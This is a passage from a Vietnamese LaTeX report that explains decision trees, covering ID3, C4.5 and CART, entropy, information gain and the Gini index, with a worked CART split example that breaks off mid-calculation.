\centering
\includegraphics[scale=0.15]{dt_ex1}
\caption{Ví dụ về việc đưa ra các quyết định dựa trên câu hỏi}
\label{fig:dt_ex1}
\end{figure}

Hình ellipse nền vàng thể hiện quyết định cần được đưa ra. Quyết định này phụ thuộc vào các câu trả lời của các câu hỏi trong các ô hình chữ nhật màu xám. Dựa trên các câu trả lời, quyết định cuối cùng được cho trong các hình tròn màu lục (chơi) và đỏ (học).

Việc quan sát, suy nghĩ và ra các quyết định của con người thường được bắt đầu từ các câu hỏi. Machine learning cũng có một mô hình ra quyết định dựa trên các câu hỏi. Mô hình này có tên là \textit{cây quyết định (decision tree)}.

Trong hình \ref{fig:dt_ex1}, các ô màu xám, lục, đỏ được gọi là các nút (node). Các nút thể hiện đầu ra (màu lục và đỏ) được gọi là \textit{nút lá} (\textit{leaf node} hoặc \textit{terminal node}). Các nút thể hiện câu hỏi là các nút trong (\textit{non-leaf node}). Nút trong trên cùng (câu hỏi đầu tiên) được gọi là nút gốc (\textit{root node}). Các nút trong thường có hai hoặc nhiều nút con (\textit{child node}). Các nút con này có thể là một nút lá hoặc một nút trong khác. Các nút con có cùng nút cha được gọi là \textit{sibling node}. Nếu tất cả các nút trong chỉ có hai nút con, ta nói rằng đó là một cây quyết định nhị phân (\emph{binary decision tree}). Các câu hỏi trong cây quyết định nhị phân đều có thể đưa được về dạng câu hỏi đúng hay sai.

Ví dụ, có thể xác định được tuổi của một người dựa trên nhiều câu hỏi đúng sai dạng: tuổi của bạn lớn hơn $x$ đúng không? (Đây chính là thuật toán \textit{tìm kiếm nhị phân – binary search}).

Cây quyết định là một mô hình \textit{supervised learning}, có thể được áp dụng vào cả hai bài toán \textit{classification và regression}. Việc xây dựng một cây quyết định trên dữ liệu huấn luyện cho trước là việc xác định các câu hỏi và thứ tự của chúng. Một điểm đáng lưu ý của decision tree là nó có thể làm việc với các đặc trưng (trong các tài liệu về decision tree, các đặc trưng thường được gọi là thuộc tính – \textit{attribute}) dạng \textit{categorical}, thường là rời rạc và không có thứ tự. Ví dụ, mưa, nắng hay xanh, đỏ, \ldots. Decision tree cũng làm việc với dữ liệu có vector đặc trưng bao gồm cả thuộc tính dạng categorical và liên tục (numeric). Một điểm đáng lưu ý nữa là cây quyết định ít yêu cầu việc chuẩn hoá dữ liệu.

\subsection{Phân loại}
Có 3 loại cây quyết định phổ biến sau:

\begin{itemize}
\item \textbf{Iterative Dichotomiser 3 (ID3)} - Tạo cây nhiều chiều, tìm cho mỗi node một đặc tính phân loại sao cho đặc tính này có giá trị ``information gain'' lớn nhất. Cây được phát triển tới mức tối đa kích thước. Sau đó áp dụng phương thức cắt tỉa cành để xử lý những dữ liệu chưa nhìn thấy.
\item \textbf{C4.5} - Kế thừa từ ID3 nhưng loại bỏ hạn chế về việc chỉ sử dụng đặc tính có giá trị phân loại bằng cách tự động định nghĩa một thuộc tính rời rạc. Dùng để phân chia những thuộc tính liên tục thành những tập rời rạc.
\item \textbf{Classification and Regression Trees (CART)} - Tương tự như C4.5, nhưng nó hỗ trợ thêm đối tượng dự đoán là giá trị số (\emph{\gls{regression}}). Cấu trúc CART dạng cây nhị phân, mỗi nút sử dụng một ngưỡng để đạt được ``information gain'' lớn nhất.
\end{itemize}

%Hình \ref{fig:decision_tree_type_comparison} so sánh giữa các loại thuật toán decision tree.
%
%\begin{figure}[ht!]
%\centering
\includegraphics[scale=0.75]{comparison-decision-trees}
%\caption{So sánh các thuật toán Decision Trees}
%\label{fig:decision_tree_type_comparison}
%\end{figure}

\subsection{Ưu và nhược điểm của thuật toán}
Tùy vào loại cây quyết định mà có ưu nhược điểm riêng. Nhưng nhìn chung thuật toán có những ưu nhược điểm chung như sau:
\subsubsection*{Về ưu điểm}
\begin{itemize}
\item Cây quyết định thường mô phỏng cách suy nghĩ con người. Vì vậy mà đơn giản để hiểu và diễn giải dữ liệu.
\item Giúp nhìn thấy được sự logic của dữ liệu.
\item Có khả năng chọn được những đặc trưng tốt nhất.
\item Phân loại dữ liệu không cần tính toán phức tạp.
\item Giải quyết vấn đề nhiễu và thiếu dữ liệu.
\item Có khả năng xử lý dữ liệu có biến liên tục và rời rạc.
\end{itemize}

\subsubsection*{Về nhược điểm}
\begin{itemize}
\item Tỉ lệ tính toán tăng theo hàm số mũ.
\item Dễ bị vấn đề overfitting \footnote{\textbf{Overfitting} là hiện tượng mô hình tìm được quá khớp với dữ liệu huấn luyện dẫn đến sự nhầm nhiễu.} và underfitting \footnote{\textbf{Underfitting} là hiện tượng mô hình tìm được khác xa so với thực tế.} khi tập dữ liệu huấn luyện nhỏ.
\end{itemize}

Bài báo cáo này sử dụng loại \textbf{CART}. Do tính đơn giản và dễ tiếp cận cũng như những giá trị đặc trưng sử dụng là kiểu dữ liệu liên tục không phải phân loại nên không dùng \emph{ID3} được. Và đây là loại cây quyết định được thư viện \textit{scikit-learn} chọn sử dụng.

\subsection{Một số khái niệm}
\subsubsection{Độ hỗn loạn và độ lợi thông tin}
\textbf{Entropy} (độ hỗn loạn) là khái niệm được dùng trong vật lý, toán học, khoa học máy tính (lý thuyết thông tin) và nhiều lĩnh vực khoa học khác. Dùng để chỉ độ bừa bộn của dữ liệu.

Hình \ref{fig:entropy_1} với tập dữ liệu khởi đầu gồm các điểm dữ liệu xanh (có hình ``+'') và đỏ (có hình ``o'') nằm lẫn lộn với nhau. Mỗi điểm dữ liệu gồm nhiều đặc tính. Dựa trên những đặc tính này cây bắt đầu tính toán để chọn đặc tính tiêu biểu nhất, chia tập ban đầu thành hai tập con \textbf{Set 1} và \textbf{Set 2}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.5]{entropy_1}
\caption{Tập dữ liệu khởi đầu với dữ liệu lộn xộn}
\label{fig:entropy_1}
\end{figure}

Cần làm cho hầu hết những điểm dữ liệu màu đỏ nằm trong \textbf{Set 1}, và phần lớn dữ liệu màu xanh nằm trong \textbf{Set 2}. Cây quyết định ở đây đang cố gắng xếp các dữ liệu một cách gọn gàng bằng vector đặc trưng ứng với mỗi điểm dữ liệu. Dựa vào giá trị này quyết định điểm nào thuộc về nút lá nào. Và giá trị entropy được tính để xác định đặc tính nào cho ra độ không sạch thấp nhất để chọn đặc tính đó.

\textbf{Cách tính giá trị entropy}

Giả sử ta có một tập $N$ phần tử. Mỗi phần tử có thể thuộc vào nhãn 1 hoặc nhãn 2. Ta có $n$ phần tử \emph{thuộc nhãn 1} và $m = N - n$ phần tử \emph{thuộc nhãn 2}. 

\begin{itemize}
\item Xác xuất nhãn $1$: $p = \frac{n}{N}$
\item Xác xuất nhãn $2$: $q = \frac{m}{N} = 1 - p $
\end{itemize}

Ký kiệu Entropy là $E$:

\begin{equation}
E = -p\log _2(p) - q\log _2(q)
\end{equation}

Một tập là gọn gàng, sạch sẽ nếu nó chỉ chứa các phần tử cùng loại. Và bừa bộn, không sạch nếu nó chứa trộn lẫn nhiều loại dữ liệu. Ta nhìn vào công thức Entropy nếu không có điểm dữ liệu nào mang nhãn 1 ($p = 0$) hoặc ngược lại toàn bộ dữ liệu đều thuộc nhãn 1 ($p = 1$), khi đó entropy = 0. Nếu một nửa nhãn 1 ($p =  \frac{1}{2}$) và một nửa nhãn 2 ($ q = \frac{1}{2}$). Khi đó entropy đạt giá trị tối đa bằng 1.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.8]{entropy_2}
\caption[Đồ thị entropy cho biến 2 trạng thái]{Đồ thị entropy cho biến 2 trạng thái có xác suất trạng thái $p$ và $q$ với $p + q = 1$}
\label{fig:entropy_2}
\end{figure}

Từ đó ta có công thức tổng quát để tính giá trị entropy như sau:

\begin{equation}
E(\mathcal{S}) = -\sum_{i=1}^n p_i \log(p_i)
\end{equation}

Với $\mathcal{S}$ là tập dữ liệu, $p_i$ là tỉ lệ các điểm dữ liệu nhãn $i$ thuộc tập $S$.

\textbf{Information gain} (độ lợi thông tin)  là con số để đánh giá thuộc tính nào quan trọng hơn thuộc tính nào và đo độ thay đổi entropy trước và sau khi chia dữ liệu thành các phần nhỏ hơn.

\textbf{Cách tính giá trị information gain}

Giả sử ta đang làm việc với một \emph{non-leaf node} với các điểm dữ liệu tạo thành một tập \(\mathcal{S}\) với số phần tử là \(|\mathcal{S}| = N\). Tiếp theo, giả sử thuộc tính được chọn là \(x\). Dựa trên \(x\), các điểm dữ liệu trong \(\mathcal{S}\) được phân ra thành \(K\) child node \(\mathcal{S}_1, \mathcal{S}_2, \dots, \mathcal{S}_K\) với số điểm trong mỗi child node lần lượt là \(m_1, m_2, \dots, m_K\). Ta định nghĩa:

\begin{equation}
E(x, \mathcal{S}) = \sum_{k=1}^K \frac{m_k}{N} E(\mathcal{S}_k)
\end{equation}

Trong đó $E(\mathcal{S}_k)$ là giá trị entropy tại mỗi nút con.

Công thức trên là tổng có trọng số \textbf{entropy} của mỗi nút con. Việc lấy trọng số này là quan trọng vì các nút thường có số lượng điểm khác nhau.

Tiếp theo, ta định nghĩa information gain dựa trên thuộc tính \(x\):

\begin{equation} \label{eq:gain_info}
\mathbf{Gain}(x, \mathcal{S}) = E(\mathcal{S}) - E(x, \mathcal{S})
\end{equation}

Việc tính toán giá trị entropy và information gain rất quan trọng trong bài toán về xây dựng và cắt tỉa cây, tức là khi tách ra thành các nút con thì cần chọn ra thuộc tính nào tốt nhất để tách. Thuộc tính này có ảnh hướng đến kết quả sau cùng.

Bài toán của chúng ta là tìm ra thuộc tính sao cho giá trị gain information là cao nhất (đồng nghĩa với tổng có trọng số entropy ở mỗi nút con phải là thấp nhất).

\subsubsection{Gini index}
\textbf{Gini index} tương tự entropy, chỉ số gini index dùng để đo độ không sạch, hỗn loạn của dữ liệu.

\textbf{Công thức tính gini index:}

\begin{equation}
\mathbf{Gini}(\mathcal{S}) = 1 - \sum_{i=1}^n p^{2}_{i}
\end{equation}

Với $\mathcal{S}$ là  tập các dữ liệu, $p_i$ là xác xuất điểm dữ liệu có nhãn loại $i$. Giá trị gini \emph{càng thấp} chứng tỏ dữ liệu càng sạch, bằng 0 tức tất cả dữ liệu điều chung một nhãn.

Tương tự \emph{information gain} ta có $\Delta\mathbf{Gini}$ (``Delta gini'' hay gain gini) dùng đo độ lệch không sạch của dữ liệu sau khi được tách thành các nhóm khác nhau. Do đó có công thức tương tự như \ref{eq:gain_info}.

\begin{equation}
\Delta\mathbf{Gini}(x, \mathcal{S}) = \mathbf{Gini}(\mathcal{S}) - \mathbf{Gini}(x, \mathcal{S})
\end{equation}

Với $\mathbf{Gini}(x, \mathcal{S}) = \sum_{k=1}^K \frac{m_k}{N} \mathbf{Gini}(\mathcal{S}_k)$

Trong bộ thư viện \textbf{scikit-learn} sử dụng cây \textbf{CART} và hỗ trợ cả \emph{Gini} và \emph{Entropy}. Cả hai điều mang lại kết quả như nhau. Bài này chọn Gini vì dễ tính toán do không phải tính hàm logarit.

\subsection{Quá trình xây dựng cây}
Các bước để xây dựng cây dựa trên thuật toán CART như sau:

\begin{enumerate}
\item Tính giá trị \emph{gini index} cho \emph{nút gốc} - chứa toàn bộ dữ liệu.

\item Với mỗi \emph{attribute} / \emph{feature} $j$, ta phân ra các ngưỡng $T_j$, từ các ngưỡng đó thực hiện chia dữ liệu thành các tập dữ liệu, trong mỗi tập dữ liệu bao gồm:

\begin{itemize}
\item Set 1 $\{ i: x_{ij} > T_j \}$
\item Set 2 $\{ i: x_{ij} \le T_j \}$
\end{itemize}

\item Chọn ngưỡng $T_j$ sao cho các tập dữ liệu trở nên ``tinh khiết'' về mặt nhãn / lớp (\emph{label} / \emph{class}) càng tốt. Chọn $T_j$ dựa vào giá trị lợi gini ($\Delta\mathbf{Gini}$ hay gain gini) của từng tập dữ liệu đã phân tách.

Tập nào có giá trị \emph{lợi gini cao nhất} (tương ứng tổng có trọng số gini index là thấp nhất) thì chọn tập đó.

\item Sau khi có ngưỡng $T_j$ được chọn tương ứng với \emph{attribute} / \emph{feature} $j$, ta có tập dữ liệu mới (các \emph{child node}) được phân tách. Tiến hành lặp lại bước 2-3 với các tập mới được chọn (xử lí riêng biệt với \textbf{Set 1} và \textbf{Set 2} để tách thành các tập mới) cho đến khi được một cây hoàn chỉnh.
\end{enumerate}

Ví dụ minh họa: cho tập dữ liệu có như trong bảng \ref{tab:example_cart}.

\begin{table}[ht!]
\centering
\begin{tabular}{|>{\centering\arraybackslash}p{3cm}|>{\centering\arraybackslash}p{3cm}|>{\centering\arraybackslash}p{3cm}|}
\hline 
A & B & Label \\ 
\hline 
1 & 4 & 0 \\ 
\hline 
2 & 4 & 1 \\ 
\hline 
3 & 4 & 1 \\ 
\hline 
1 & 5 & 1 \\ 
\hline 
2 & 5 & 0 \\ 
\hline 
\end{tabular}
\caption{Dữ liệu mẫu mô tả cho quá trình xây dựng cây bằng CART}
\label{tab:example_cart} 
\end{table}

Với mỗi điểm dữ liệu là một dòng trong bảng, gồm hai thuộc tính \textbf{A} và \textbf{B}. Mỗi điểm dữ liệu thuộc một nhãn $\{0, 1\}$. Nút gốc chứa 5 điểm dữ liệu, gồm 2 điểm dữ liệu có có nhãn (\emph{label}) là 0 và 3 điểm dữ liệu có nhãn là 1.

Đầu tiên, tính giá trị gini index tại nút gốc như sau:

\begin{eqnarray*}
\mathbf{Gini}(\mathcal{S}) 
& = & 1 - p_{label=0}^{2} - p_{label=1}^{2} \\
& = & 1 - \biggl(\frac{2}{5}\biggr)^2 - \biggl(\frac{3}{5}\biggr)^2 \\
& = & 0.48
\end{eqnarray*}

Tiếp theo, chọn ngưỡng để tách tập dữ liệu. Có hai thuộc tính để chọn ngưỡng:

\begin{itemize}
\item Thuộc tính \textbf{A} bao gồm các giá trị $\{1, 2, 3\}$. Ngưỡng được lấy từ giá trị trung bình của hai giá trị liên tiếp trong \textbf{A} là $1.5$ (trung bình của 1 và 2) và $2.5$ (trung bình của 2 và 3). Vậy ngưỡng $T_A = \{1.5, 2.5\}$
\item Thuộc tính \textbf{B} bao gồm các giá trị $\{4, 5\}$. Ngưỡng được lấy từ giá trị trung bình của hai giá trị liên tiếp trong \textbf{B} là $4.5$ (trung bình của 4 và 5). Vậy ngưỡng $T_B = \{4.5\}$
\end{itemize}

Ở mỗi ngưỡng, tiến hành phân tách ra thành 2 tập dữ liệu: tập 1 (Set 1) bao gồm các giá trị của thuộc tính lớn hơn ngưỡng, và tập 2 (Set 2) bao gồm các giá trị của thuộc tính nhỏ hơn (hoặc bằng) ngưỡng. Sau đó tính tổng có trọng số gini index ở mỗi ngưỡng:

\begin{itemize}
\item Với ngưỡng $T_A = 1.5$, ta có 2 tập dữ liệu được phân tách như sau:

\begin{table}[ht!]
\centering
\begin{tabular}{|>{\centering\arraybackslash}p{3cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|}
\hline
\textbf{Tập dữ liệu con} & \multicolumn{1}{c|}{\textbf{A}} & \multicolumn{1}{c|}{\textbf{B}} & \multicolumn{1}{c|}{\textbf{Label}} \\ \hline
\multirow{3}{*}{Set 1 ($\mathcal{S}_1$)}  & 2                               & 4                               & 1                                   \\ \cline{2-4} 
                         & 3                               & 4                               & 1                                   \\ \cline{2-4} 
                         & 2                               & 5                               & 0                                   \\ \hline
\multirow{2}{*}{Set 2 ($\mathcal{S}_2$)}  & 1                               & 4                               & 0                                   \\ \cline{2-4} 
                         & 1                               & 5                               & 1                                   \\ \hline
\end{tabular}
\caption{Các tập dữ liệu con được tách từ ngưỡng $T_A = 1.5$}
\label{tab:data_1}
\end{table}

Ở mỗi tập con, tính giá trị gini index:

\begin{itemize}
\item Set 1: $\mathbf{Gini}(\mathcal{S}_1) = 1 - \biggl(\frac{2}{3}\biggr)^2 - \biggl(\frac{1}{3}\biggr)^2 = \frac{4}{9}$
\item Set 2: $\mathbf{Gini}(\mathcal{S}_2) = 1 - \biggl(\frac{1}{2}\biggr)^2 - \biggl(\frac{1}{2}\biggr)^2 = \frac{1}{2}$
\end{itemize}

Tiếp theo, tính tổng có trọng số gini index của các tập con:

\begin{eqnarray*}
\mathbf{Gini}(A, \mathcal{S}) 
& = & \frac{3}{5} \mathbf{Gini}(\mathcal{S}_1) + \frac{2}{5} \mathbf{Gini}(\mathcal{S}_2) \\
& = & \frac{3}{5}\cdot\frac{4}{9} + \frac{2}{5}\cdot\frac{1}{2} \\
& \approx & 0.47
\end{eqnarray*}

\item Với ngưỡng $T_A = 2.5$, có 2 tập dữ liệu được phân tách như sau:

\begin{table}[ht!]
\centering
\begin{tabular}{|>{\centering\arraybackslash}p{3cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|}
\hline
\textbf{Tập dữ liệu con} & \textbf{A} & \textbf{B} & \textbf{Label} \\ \hline
Set 1 ($\mathcal{S}_1$)                   & 3          & 4          & 1              \\ \hline
\multirow{4}{*}{Set 2 ($\mathcal{S}_2$)}  & 1          & 4          & 0              \\ \cline{2-4} 
                         & 2          & 4          & 1              \\ \cline{2-4} 
                         & 1          & 5          & 1              \\ \cline{2-4} 
                         & 2          & 5          & 0              \\ \hline
\end{tabular}
\caption{Các tập dữ liệu con được tách từ ngưỡng $T_A = 2.5$}
\label{tab:data_2}
\end{table}

Ở mỗi tập con, tính giá trị gini index:

\begin{itemize}
\item Set 1: $\mathbf{Gini}(\mathcal{S}_1) = 0$
\item Set 2: $\mathbf{Gini}(\mathcal{S}_2) = \frac{1}{2}$
\end{itemize}

